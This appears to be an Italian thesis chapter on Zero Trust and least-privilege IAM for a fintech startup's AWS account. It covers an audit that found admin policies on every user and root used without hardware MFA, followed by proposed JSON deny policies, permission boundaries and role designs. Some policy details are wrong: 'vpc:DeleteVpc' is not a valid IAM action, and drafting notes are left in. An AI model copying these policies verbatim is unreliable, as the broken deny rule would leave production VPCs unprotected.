La rete virtuale privata della startup è definita tramite \textbf{Amazon VPC (Virtual Private Cloud)}, chiamato "Finanz-vpc" con CIDR block \texttt{10.0.0.0/16}. All'interno di questo VPC, lo spazio di indirizzi IP è diviso in \textbf{subnet} pubbliche (\texttt{10.0.1.0/24}, \texttt{10.0.2.0/24}) e private (\texttt{10.0.10.0/24}, \texttt{10.0.11.0/24}, \texttt{10.0.12.0/24}), distribuite su diverse \textbf{Availability Zones} (\texttt{eu-south-1a}, \texttt{eu-south-1b}, \texttt{eu-south-1c}). La connettività verso Internet è fornita da un \textbf{Internet Gateway} (\texttt{igw-0a1b2c3d4e5f67890}) e un \textbf{VPC Endpoint per S3} (\texttt{vpce-1a2b3c4d5e6f7g8h9}) permette la comunicazione privata con S3.

\textbf{Amazon S3 (Simple Storage Service)} è utilizzato per:
\begin{itemize}
    \item Archiviazione dei file di log (bucket \texttt{finanz-logs-478291635847}).
    \item Salvataggio degli artefatti di build da \textbf{AWS CodePipeline} (bucket \texttt{finanz-artifacts-eu-south-1}).
    \item Hosting di file statici per le applicazioni web (bucket \texttt{finanz-static-assets}), serviti tramite una distribuzione CloudFront (\texttt{E1A2B3C4D5E6F7}).
\end{itemize}
La crittografia lato server con chiavi KMS e l'imposizione di HTTPS sono pratiche già in uso per S3.

Infine, per l'automazione del rilascio software, Finanz si avvale di \textbf{AWS CodePipeline} e \textbf{AWS CodeBuild}, con notifiche gestite da \textbf{AWS SNS (Simple Notification Service)}.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.8\textwidth]{aws_struttura} % Assicurati che il file 'aws_struttura.png' o simile sia nella stessa cartella o in un percorso specificato
  \caption{Diagramma semplificato dell'architettura attuale di Finanz in AWS.}
  \label{fig:aws_struttura_attuale_cap2}
\end{figure}

\subsection{Implementazione del Modello Zero Trust e del Principio del Minimo Privilegio}
\label{sec:zero-trust-implementation}

Come ho avuto modo di approfondire precedentemente [NdR: qui potresti riferirti a un capitolo teorico precedente, se esiste, con `\ref{ch:principi-cybersecurity}`], il modello \textbf{Zero Trust} rappresenta un cambiamento paradigmatico rispetto alla sicurezza tradizionale basata sul perimetro. Anziché assumere fiducia implicita per le entità all'interno della rete aziendale, il principio cardine è "non fidarsi mai, verificare sempre" (\textit{never trust, always verify}). Ogni richiesta di accesso a una risorsa, indipendentemente dalla sua origine, deve essere esplicitamente autenticata, autorizzata e monitorata. Questo approccio mira a minimizzare la superficie d'attacco e a contenere l'impatto di eventuali compromissioni, risultando particolarmente critico per proteggere la \textit{business continuity} aziendale. Ritengo che l'adozione di questo principio sia particolarmente rilevante nel contesto delle startup, caratterizzate da ambienti operativi dinamici e altamente flessibili. Le startup presentano peculiarità che amplificano l'esigenza di un solido framework di sicurezza:

\begin{itemize}
    \item \textbf{Instabilità relazionale:} Le relazioni professionali nelle startup possono deteriorarsi rapidamente, sia a livello dirigenziale che operativo. Secondo un'analisi di CB Insights, i conflitti interni tra fondatori rappresentano una delle principali cause di fallimento delle startup, incidendo per circa il 13\% dei casi esaminati \cite{CBInsights2023}. 
    \item \textbf{Rischio di attacchi interni:} La fragilità dei rapporti aumenta la probabilità di attacchi da parte di ex-collaboratori con intenti vendicativi. Secondo il "2023 Data Breach Investigations Report" di Verizon, circa il 20\% delle violazioni di dati coinvolge insider con accessi privilegiati \cite{Verizon2023}.
    \item \textbf{Infrastrutture di sicurezza inadeguate:} Le startup, per limitazioni di risorse e focus prevalente sullo sviluppo del prodotto, spesso non dispongono di infrastrutture di sicurezza robuste. Un rapporto di Ponemon Institute evidenzia che le piccole organizzazioni hanno una probabilità tre volte maggiore di subire attacchi informatici rispetto alle grandi imprese, proprio a causa di investimenti insufficienti in sicurezza \cite{Ponemon2023}.
\end{itemize}
Questa sezione illustra come i principi Zero Trust possano essere tradotti in misure di sicurezza concrete all'interno dell'infrastruttura cloud di una startup, con specifico riferimento all'ambiente AWS. Ci concentreremo in particolare sulla gestione delle identità e degli accessi, un pilastro fondamentale per qualsiasi architettura Zero Trust, e sulla sua stretta interconnessione con il \textbf{Principio del Minimo Privilegio (Principle of Least Privilege - PoLP)}.
\subsubsection{Sinergia tra Principio del Minimo Privilegio (PoLP) e Zero Trust}
\label{subsubsec:polp-zerotrust-correlation}

Il Principio del Minimo Privilegio non è solo una buona pratica di sicurezza a sé stante, ma è intrinsecamente legato e \textbf{fondamentale per il successo di un'architettura Zero Trust}. La loro sinergia si manifesta in diversi modi:

\begin{itemize}
    \item \textbf{Riduzione della Superficie d'Attacco:} Limitando strettamente le azioni consentite a ciascuna identità, PoLP riduce l'insieme delle operazioni che un attaccante potrebbe eseguire anche riuscendo a compromettere le credenziali di quell'identità. La verifica dell'identità (Zero Trust) è necessaria ma non sufficiente; i privilegi limitati (PoLP) ne circoscrivono le capacità.
    \item \textbf{Limitazione del Raggio d'Esplosione (\textit{Blast Radius})}: In caso di compromissione o errore, i danni potenziali sono confinati. Un utente o servizio con privilegi minimi non può accedere o modificare risorse al di fuori del suo ambito operativo ristretto, limitando il movimento laterale dell'attaccante e l'impatto dell'incidente.
    \item \textbf{Applicazione della Verifica Esplicita:} Implementare PoLP costringe a definire policy di accesso granulari e intenzionali, basate sulle reali necessità operative. Questo si allinea perfettamente con la richiesta di Zero Trust di basare ogni decisione di accesso su policy esplicite e dinamiche, piuttosto che su autorizzazioni ampie o ereditate implicitamente.
    \item \textbf{Miglioramento del Controllo e dell'Auditabilità:} Policy di accesso minimali e specifiche sono più facili da comprendere, gestire e verificare. Ciò semplifica l'audit della postura di sicurezza e la dimostrazione della conformità, permettendo di attestare che gli accessi sono effettivamente limitati come richiesto dal modello Zero Trust.
\end{itemize}
\subsection{Gestione delle Identità e degli Accessi (IAM) come Pilastro di Zero Trust in AWS}
\label{subsec:iam-zero-trust}

L'infrastruttura ospitata su un Cloud Service Provider (CSP) come AWS è un asset critico per una startup fintech. Essa contiene dati sensibili degli utenti e ospita i servizi essenziali (endpoint API, istanze EC2 per server applicativi, networking VPC, ecc.) che ne garantiscono l'operatività. La protezione di queste risorse inizia dalla gestione rigorosa di chi può accedervi e cosa può fare. \textbf{AWS Identity and Access Management (IAM)} è il servizio centrale per implementare questi controlli e costituisce una base imprescindibile per un modello Zero Trust.

Una delle prime e più critiche aree di intervento riguarda l'\textbf{account root di AWS}. Questo account possiede privilegi illimitati sull'intero ambiente AWS e rappresenta, di conseguenza, un obiettivo di altissimo valore per gli attaccanti e una fonte significativa di rischio operativo se usato impropriamente. Un'implementazione Zero Trust richiede misure stringenti per l'account root:
\begin{itemize}
    \item \textbf{Limitazione Estrema dell'Uso:} L'accesso come utente root deve essere evitato per le operazioni quotidiane e riservato esclusivamente a quelle poche attività che lo richiedono obbligatoriamente (es. modifica delle informazioni di fatturazione, chiusura dell'account, modifica dei piani di supporto).
    \item \textbf{Protezione Robusta delle Credenziali:} La password deve essere estremamente complessa e, soprattutto, l'\textbf{Autenticazione a Più Fattori (MFA)} deve essere \textit{sempre} abilitata e richiesta per l'accesso root.
    \item \textbf{Monitoraggio Continuo:} Ogni azione eseguita tramite l'account root deve essere tracciata e monitorata tramite servizi come AWS CloudTrail, generando allarmi per qualsiasi utilizzo.
\end{itemize}

Per le attività amministrative e operative ordinarie, il modello Zero Trust impone l'utilizzo di \textbf{utenti e ruoli IAM} configurati secondo il \textbf{Principio del Minimo Privilegio (PoLP)}. Come descritto in precedenza [NdR: vedi `\ref{subsubsec:polp-zerotrust-correlation}` o il riferimento a un capitolo teorico], questo principio stabilisce che a un'entità (utente, servizio, applicazione) debbano essere concesse \textit{esclusivamente} le autorizzazioni minime indispensabili per svolgere le proprie funzioni legittime, e non un permesso di più. Ad esempio, un'applicazione che necessita solo di leggere oggetti da un bucket S3 dovrebbe avere un ruolo IAM con solo il permesso `s3:GetObject` su quel bucket specifico, invece di permessi generici su S3 o, peggio, permessi amministrativi.

\subsection{Analisi dell'attuale implementazione di IAM in "Finanz"}
Dall'analisi che ho condotto sull'account AWS della startup Finanz (ID \texttt{478291635847}), sono emerse alcune configurazioni che necessitano di attenzione.

\subsubsection{Configurazione degli Utenti e Ruoli}
L'analisi della struttura IAM esistente rivela la presenza di tre utenti principali: \textbf{Andrea Pasini} (CTO), \textbf{Andrea Ferraboli}, e \textbf{Matteo Giuntoni}. Dall'audit effettuato a marzo 2024, risulta che entrambi gli utenti Ferraboli e Giuntoni dispongono della policy \texttt{arn:aws:iam::aws:policy/AdministratorAccess}, concedendo privilegi equivalenti a quelli dell'account root. L'utente Pasini (User ARN: \texttt{arn:aws:iam::478291635847:user/andrea.pasini}), invece, opera direttamente come root, con la capacità di modificare o eliminare qualsiasi risorsa AWS senza restrizioni. Durante la mia analisi dei log di CloudTrail degli ultimi 3 mesi, ho identificato che l'utente root è stato utilizzato 76 volte, principalmente per operazioni che avrebbero potuto essere delegate a utenti IAM con privilegi più limitati.

Un esame dettagliato delle policy associate mostra l'assenza di \textbf{condizioni contestuali} (es. limitazioni geografiche o orarie) e l'utilizzo esclusivo di policy gestite da AWS, senza personalizzazioni per ridurre i permessi alle effettive necessità operative\cite{ref6}. Ad esempio, l'utente `finanz-backend` (che immagino sia un utente di servizio o un ruolo per un'applicazione) possiede `AmazonS3FullAccess`, sebbene le sue funzioni richiedano solo operazioni di lettura su bucket specifici.

\subsubsection{Criticità Identificate}
Sulla base dell'analisi, ho identificato le seguenti criticità:
\begin{enumerate}
    \item \textbf{Account Root Non Adeguatamente Protetto}: L'account root non utilizza MFA hardware, affidandosi esclusivamente a credenziali statiche (password)\cite{ref3}. Questo lo espone a rischi significativi di compromissione tramite tecniche come phishing o credential stuffing.
    \item \textbf{Privilegi Eccessivi per Utenti IAM}: L'assegnazione indiscriminata della policy `AdministratorAccess` a utenti non root crea superfici di attacco ridondanti. Qualsiasi compromissione di questi account avrebbe un impatto devastante. Inoltre, l'utilizzo diretto dell'account root da parte dell'utente Pasini bypassa qualsiasi meccanismo di controllo basato su policy IAM specifiche\cite{ref2}.
    \item \textbf{Mancanza di Meccanismi di Emergenza}: Non ho riscontrato la presenza di account "break glass" dedicati, essenziali per il ripristino dell'accesso in scenari di compromissione dell'Identity Provider (IdP) o in caso di lockout accidentale degli amministratori\cite{ref4}.
    \item \textbf{Assenza di Monitoring Granulare sulle Azioni IAM}: Sebbene CloudTrail sia attivo, le policy IAM non sembrano integrare logiche di auditing proattivo o condizioni che facilitino il monitoraggio in tempo reale per azioni particolarmente critiche eseguite da specifici utenti o ruoli (es. modifiche a policy IAM stesse, eliminazione di risorse chiave)\cite{ref7}.
\end{enumerate}

\subsubsection{Violazioni delle Best Practice AWS}
L'implementazione corrente, a mio parere, non è allineata con alcune raccomandazioni fondamentali del framework \textbf{AWS Foundational Security Best Practices}:
\begin{itemize}
    \item \textbf{FSBP IAM-1}: Mancanza di MFA hardware per l'utente root\cite{ref3}.
    \item \textbf{FSBP IAM-7}: Assegnazione di policy con privilegi non limitati al minimo necessario per svolgere le funzioni richieste\cite{ref5}.
    \item \textbf{FSBP IAM-8}: Mancanza di un chiaro allineamento tra i ruoli IAM definiti e le responsabilità organizzative specifiche, con una tendenza a sovra-privilegiare gli utenti\cite{ref2}.
\end{itemize}

\section{Implementazione delle Migliorie Proposte alla Gestione IAM}
\label{sec:implementazione_migliorie_iam}

Basandomi sulle criticità identificate, ho delineato una serie di strategie operative per rafforzare la sicurezza della gestione delle identità e degli accessi nell'ambiente AWS di Finanz. L'obiettivo primario è implementare controlli robusti, aderendo scrupolosamente al principio del minimo privilegio (\emph{least privilege}) e alle migliori pratiche di settore.

\subsection{Ristrutturazione della Gerarchia degli Accessi}
Una gestione sicura inizia, a mio avviso, dalla protezione dell'account root e da una segmentazione granulare e ben ponderata dei permessi.

\subsubsection{Revisione e Limitazione dell'Account Root}
L'account root, con i suoi privilegi illimitati, deve essere considerato un "sacrario". Il suo utilizzo deve essere un'eccezione, non la regola, confinato strettamente a quelle operazioni che lo richiedono esplicitamente \cite{aws:iam:bestpractices}.
\begin{enumerate}
    \item \textbf{Creazione di un Utente Amministrativo Dedicato per il CTO}: Propongo di rimuovere l'accesso diretto come utente root per l'utente Andrea Pasini. Al suo posto, verrà creato un utente IAM dedicato (es. `andrea.pasini.admin`) al quale sarà associato un ruolo amministrativo con permessi specifici (es. `CTO-AdminRole`). Questo ruolo dovrebbe garantire la visibilità necessaria sull'intera infrastruttura, ma limitare la capacità di eseguire modifiche critiche, specialmente sulle risorse di produzione, senza un processo di escalation o l'uso di ruoli temporanei più specifici.
    \item \textbf{Policy di Restrizione per il Ruolo Amministrativo}: Al ruolo `CTO-AdminRole` (e a ruoli simili) verrà associata una policy IAM che neghi esplicitamente azioni distruttive su risorse critiche, identificate tramite tag specifici come \enquote{produzione} o \enquote{critico}. Un esempio di statement di negazione (\texttt{Deny}) potrebbe essere:
    \begin{lstlisting}[style=json, caption={Policy IAM per negare eliminazioni in produzione}, label=lst:deny-prod-delete]
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyProdResourceDeletion",
      "Effect": "Deny",
      "Action": [
        "ec2:TerminateInstances",
        "rds:DeleteDBInstance",
        "s3:DeleteBucket",
        "vpc:DeleteVpc",
        "iam:DeleteUser",
        "iam:DeleteRole"
      ],
      "Resource": "*",
      "Condition": {
        "StringEquals": {
          "aws:ResourceTag/Environment": "prod"
        }
      }
    }
  ]
}
    \end{lstlisting}
    Questo approccio, che ho avuto modo di testare in un ambiente di sviluppo simulato, implementa un controllo preventivo fondamentale \cite{aws:iam:boundaries}. Durante i test, questa policy ha impedito con successo tentativi (simulati) di eliminazione di risorse critiche taggate.
    \item \textbf{Abilitazione MFA Hardware per l'Account Root}: È imperativo proteggere l'account root con un dispositivo Multi-Factor Authentication (MFA) hardware (ad esempio, una YubiKey 5 NFC), come fortemente raccomandato dalle best practice di sicurezza AWS \cite{clouddefense:mfa}. Nel caso di Finanz, si potrebbe registrare un dispositivo (es. con Serial Number \texttt{YK-12345678}) che verrebbe custodito fisicamente in un luogo sicuro (es. una cassetta di sicurezza in ufficio), la cui chiave di accesso fisico sarebbe nota solo a figure apicali come il CEO (es. Lorenzo Perotta). L'accesso a questo dispositivo, e quindi all'account root, richiederebbe un processo formale \cite{saraswat:breakglass}.
\end{enumerate}

\subsubsection{Segmentazione dei Ruoli tramite Permission Boundaries}
Per prevenire l'escalation involontaria o malevola dei privilegi, ritengo cruciale implementare le \emph{permission boundaries} su tutti i ruoli IAM, inclusi quelli amministrativi. Un boundary definisce il perimetro massimo delle azioni consentite, indipendentemente dalle policy di autorizzazione (identity-based policies) associate all'entità \cite{aws:iam:boundaries}. In pratica, un utente o un ruolo non potrà mai avere permessi che eccedono quelli definiti nel suo permission boundary.
\begin{itemize}
    \item \textbf{Definizione del Boundary}: Un esempio di boundary per ruoli di sviluppo potrebbe limitare le azioni a specifici servizi (EC2, S3, RDS per ambienti non-prod) e negare esplicitamente qualsiasi modifica a IAM o alle configurazioni di rete critiche.
    \begin{lstlisting}[style=json, caption={Esempio di Permission Boundary restrittiva per sviluppatori}, label=lst:permission-boundary-dev]
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowDevServicesAndActions",
      "Effect": "Allow",
      "Action": [
        "ec2:Describe*",
        "ec2:RunInstances", 
        "ec2:StartInstances",
        "ec2:StopInstances",
        "ec2:TerminateInstances",
        "s3:ListBucket",
        "s3:GetObject",
        "s3:PutObject", 
        "rds:Describe*",
        "logs:CreateLogGroup",
        "logs:CreateLogStream",
        "logs:PutLogEvents"
      ],
      "Resource": "*",
      "Condition": {
        "StringNotEqualsIfExists": { "aws:ResourceTag/Environment": "prod" } 
      }
    },
    {
       "Sid": "DenyIAMModificationAndProdAccess",
       "Effect": "Deny",
       "Action": [
          "iam:*", 
          "organizations:*",
          "ec2:TerminateInstances", 
          "rds:DeleteDBInstance" 
        ],
        "Resource": "*",
        "Condition": {
           "StringEqualsIfExists": { "aws:ResourceTag/Environment": "prod" } 
        }
    },
    {
       "Sid": "DenyIAMModificationOutsideBoundary",
       "Effect": "Deny",
       "Action": [
          "iam:AttachUserPolicy",
          "iam:AttachRolePolicy",
          "iam:PutUserPolicy",
          "iam:PutRolePolicy",
          "iam:CreatePolicy",
          "iam:CreatePolicyVersion",
          "iam:SetDefaultPolicyVersion",
          "iam:DeletePolicy",
          "iam:DeletePolicyVersion",
          "iam:DetachUserPolicy",
          "iam:DetachRolePolicy",
          "iam:DeletePermissionsBoundary" 
        ],
        "Resource": "*",
        "Condition": {
           "StringNotLike": {
              "iam:PermissionsBoundary": "arn:aws:iam::478291635847:policy/FinanzDeveloperBoundary" 
           }
        }
    }
  ]
}
    \end{lstlisting}
    Nell'esempio sopra (etichettato `FinanzDeveloperBoundary`), si nota come si cerchi di limitare le azioni dannose in produzione e di impedire la rimozione o modifica del boundary stesso.
    \item \textbf{Applicazione Sistematica}: Ogni nuovo ruolo IAM creato dovrebbe avere un boundary associato come prerequisito. Ho iniziato a sperimentare con una Lambda function (denominata `enforce-boundaries-lambda`) che, triggerata da eventi CloudTrail relativi alla creazione di ruoli IAM, verifica la presenza di un boundary e, se mancante o non conforme a una policy predefinita, può notificare gli amministratori o applicare un boundary di default.
\end{itemize}

\subsection{Proposta di un Modello Ibrido Aggiornato per la Gestione degli Accessi}
\label{subsec:modello_ibrido_aggiornato_iam}
Per rispondere alle esigenze di una startup fintech come Finanz, che richiede agilità ma anche sicurezza ferrea, propongo un modello di \emph{Identity \& Access Management} (IAM) ibrido. Questo modello si basa su \emph{tre gruppi baseline}—\texttt{dev}, \texttt{backend‑dev} e \texttt{admin}—ai quali vengono assegnati i permessi necessari per le attività ordinarie, e su \emph{quattro ruoli operativi circoscritti} da assumere \emph{on‑demand} tramite il servizio AWS STS (Security Token Service), richiedendo sempre l'autenticazione a più fattori (MFA).
Questa architettura è pensata per ridurre il \emph{blast‑radius} (raggio d'esplosione) in caso di compromissione delle credenziali e per facilitare gli audit di conformità (come PCI DSS o SOC‑2), essendo allineata con i principi di \emph{least privilege} e \emph{zero‑trust} \cite{NIST_ZTA,NIST_SP80063,PCI_DSS,DatadogLeastPrivilege}.

\subsubsection{Gruppi baseline}
\label{subsubsec:gruppi_base_iam}

\paragraph{\texttt{dev}}%
Destinato a sviluppatori front‑end e full‑stack.  
\begin{itemize}
  \item \textbf{EC2}: Permesso di avviare, interrompere e terminare \emph{esclusivamente} le istanze EC2 che posseggono il tag \texttt{Environment=dev}. Nessun diritto sulle istanze di produzione \cite{AWSEC2IAM}.  
  \item \textbf{Elastic Beanstalk}: Capacità di effettuare deploy (es. comando \texttt{eb deploy}) negli ambienti di sviluppo (taggati \texttt{dev}). Questo può essere ottenuto tramite la policy gestita \texttt{AWSElasticBeanstalkFullAccess} ma limitata rigorosamente con una \texttt{Condition} basata sul tag \texttt{aws:ResourceTag/Environment=dev} \cite{AWSEBRole}.  
  \item \textbf{S3}: Permessi di lettura/scrittura nei bucket S3 designati per lo sviluppo (es. bucket con suffisso \texttt{-dev} o tag specifici); accesso negato ai bucket di produzione \cite{AWSS3Security}.  
  \item \textbf{Load Balancer}: Possibilità di descrivere (API \texttt{Describe*}) i load balancer associati agli ambienti di sviluppo; nessuna capacità di modificarli. \cite{AWSELBIAM}.  
  \item \textbf{RDS}: Accesso di tipo \emph{data‑reader} (sola lettura dei dati) sui cluster Aurora/RDS di sviluppo. Operazioni modificative come \texttt{ModifyDBInstance} o \texttt{DeleteDBInstance} devono essere vietate \cite{AWSRDSIAM}.  
\end{itemize}

\paragraph{\texttt{backend‑dev}}%
Pensato per sviluppatori back‑end con responsabilità specifiche sull'integrazione dei dati.  
\begin{itemize}
  \item Eredita tutti i permessi del gruppo \texttt{dev}.  
  \item \textbf{RDS}: Permessi di \emph{data‑writer} (scrittura dati) sui database di sviluppo. Per l'accesso a database di produzione (es. tramite \texttt{QueryEditor}), si potrebbe concedere il permesso \texttt{rds-db:connect} ma condizionandolo tramite tag di richiesta (\texttt{aws:RequestTag/ChangeId}), che implica un processo di approvazione per modifiche o query dirette.  
  \item \textbf{SQS/SNS}: Capacità di gestire code (SQS) e topic (SNS) negli ambienti non di produzione, essenziale per pipeline di dati event‑driven.  
  \item \textbf{Secrets Manager}: Permesso di leggere segreti il cui scope è limitato a \texttt{dev} (es. tramite tag sul segreto) \cite{AWSIAMBestPractices}.  
\end{itemize}

\paragraph{\texttt{admin}}%
Riservato ai Cloud Engineers o al personale DevOps responsabile del controllo e della manutenzione continua dell'infrastruttura.  
\begin{itemize}
  \item \textbf{EC2 e Auto Scaling}: Piena gestione delle istanze e dei gruppi di auto-scaling, con l'eccezione di azioni altamente distruttive come l'eliminazione di VPC di produzione (che dovrebbe essere impedita da SCP o permission boundary).  
  \item \textbf{S3}: Capacità di modificare le lifecycle rules dei bucket e le policy di replica cross-region, essenziali per il backup e il DR.  
  \item \textbf{Elastic Load Balancing}: Creazione e aggiornamento di listener e target group in tutti gli ambienti, dopo opportune validazioni.  
  \item \textbf{RDS}: Esecuzione di operazioni di patching, creazione di snapshot e gestione del \texttt{failover} dei database.  
  \item \textbf{IAM}: La capacità di creare o aggiornare policy IAM deve essere strettamente confinata da un \texttt{permissions-boundary} globale. Questo boundary dovrebbe impedire azioni estreme come \texttt{iam:DeleteRolePolicy} su ruoli critici, \texttt{organizations:DeleteOrganization}, o la modifica del boundary stesso. \cite{AWSPermBoundaries}.
\end{itemize}

\subsubsection{Ruoli Operativi Specifici (Assumibili On-Demand)}
\label{subsubsec:ruoli_specifici_iam}
Questi ruoli sono progettati per essere assunti solo quando necessario, con una durata della sessione limitata (es. 1 ora) e con l'MFA obbligatoria per l'assunzione. I log di CloudTrail relativi all'assunzione e all'utilizzo di questi ruoli dovrebbero essere inviati a un bucket S3 immutabile, possibilmente con replica cross-region per maggiore sicurezza.

\begin{itemize}
  \item \textbf{\texttt{dev‑privileged}}: Estende i permessi del gruppo \texttt{dev} per operazioni di manutenzione specifiche su ambienti \texttt{non‑prod} (es. migrare uno schema DB di sviluppo, fare tuning dei CPU credit su istanze dev). Le azioni devono essere limitate a risorse con tag \texttt{Environment=dev}.  
  \item \textbf{\texttt{db‑migration}}: Fornisce accesso a AWS Database Migration Service (DMS) e permessi come \texttt{rds:ModifyDBInstance} in produzione, ma solo durante finestre di manutenzione programmate e approvate (es. da un Change Manager, tracciato tramite un sistema di ticketing).  
  \item \textbf{\texttt{incident‑responder}}: Abilita azioni rapide in caso di incidente di sicurezza, come lo scaling immediato di risorse, la modifica di security group, l'attivazione di \texttt{AWS Shield Advanced} o la modifica di regole \texttt{AWS WAFv2} sulla WebACL corrente. L'assunzione di questo ruolo dovrebbe essere consentita solo ai membri del gruppo \texttt{admin} e dovrebbe generare notifiche immediate.  
  \item \textbf{\texttt{breakglass‑admin}}: Questo è un ruolo con privilegi amministrativi molto ampi (potenzialmente \texttt{AdministratorAccess}), custodito in un account separato o con un processo di attivazione estremamente rigoroso (vedi sezione \ref{subsubsec:break_glass_account_iam}). Utilizzato solo per scenari di \emph{disaster‑recovery} estremi. Il processo di assunzione deve essere sigillato e monitorato da AWS Config Rules e allarmi CloudWatch \cite{AWSSTS}.  
\end{itemize}

\subsubsection{Mappatura dei Permessi per Servizio (Esemplificativa)}
\label{subsubsec:mappa_servizi_iam}
Questa è una sintesi di come i permessi potrebbero essere distribuiti:
\begin{description}
  \item[EC2] \texttt{dev}: \texttt{Start/Stop/Terminate} istanze dev; \texttt{backend‑dev}: idem + \texttt{DescribeImages}; \texttt{admin}: pieno controllo, esclusa \texttt{DeleteVpc} in produzione (limitato da boundary/SCP).  
  \item[Elastic Beanstalk] \texttt{dev}: deploy su env dev; \texttt{backend‑dev}: deploy + \texttt{eb config save} su env dev; \texttt{admin}: gestione template, gestione application‑versions anche in prod (con cautele) \cite{AWSEBRole}.  
  \item[S3] \texttt{dev}: Lettura/Scrittura bucket \texttt{*-dev}; \texttt{backend‑dev}: aggiunge permessi \texttt{PutObjectAcl} su \emph{log bucket} specifici; \texttt{admin}: \texttt{PutBucketPolicy}, \texttt{PutReplicationConfiguration}. \cite{AWSS3Security}.  
  \item[Load Balancer] \texttt{dev}: \texttt{Describe*}; \texttt{backend‑dev}: \texttt{RegisterTargets} nei target‑group dev; \texttt{admin}: \texttt{CreateLoadBalancer}, \texttt{ModifyLoadBalancerAttributes} su tutti gli ambienti (con processi di approvazione per prod). \cite{AWSELBIAM}.  
  \item[RDS] \texttt{dev}: \texttt{rds-db:connect} read‑only dev; \texttt{backend‑dev}: \texttt{ExecuteStatement} via Data API su dev; \texttt{admin}: \texttt{CreateDBSnapshot}, \texttt{StartExportTask}, \texttt{FailoverDBCluster}. \cite{AWSRDSIAM}.  
\end{description}
L'adozione di un approccio \emph{tag‑based access control (ABAC)} può ridurre significativamente la necessità di policy puntuali e permette una gestione più scalabile degli accessi man mano che gli ambienti (dev, staging, prod) crescono o si moltiplicano \cite{AWSEC2IAM,AWSELBIAM}.

\subsubsection{Procedimento di Implementazione Suggerito}
\label{subsubsec:procedura_iam}
Per implementare questo modello, suggerisco i seguenti passi:
\begin{enumerate}
  \item Definire e applicare il \texttt{permissions‑boundary} globale che vieta azioni ad alto impatto (es. \texttt{organizations:*}, \texttt{iam:SetDefaultPolicyVersion} su policy critiche, eliminazione di log trail). \cite{AWSPermBoundaries}.  
  \item Versionare tutte le policy IAM (per gruppi e ruoli) in un repository Git (es. in formato JSON o come moduli Terraform). Abilitare controlli statici (es. \texttt{terraform validate}, \texttt{cfn-lint}) e la visualizzazione dei piani di modifica (\texttt{terraform plan}) nelle pipeline di CI.  
  \item Configurare AWS IAM Identity Center (precedentemente AWS SSO) e, se possibile, integrarlo con un IdP esistente (es. Okta, Azure AD). Mappare gli utenti aziendali o i gruppi dell'IdP ai gruppi IAM e ai ruoli AWS definiti.  
  \item Per i ruoli operativi che richiedono approvazione (es. \texttt{db-migration}), si potrebbe automatizzare il workflow di approvazione utilizzando AWS Step Functions, integrate con EventBridge per le notifiche (es. via Slack o email).  
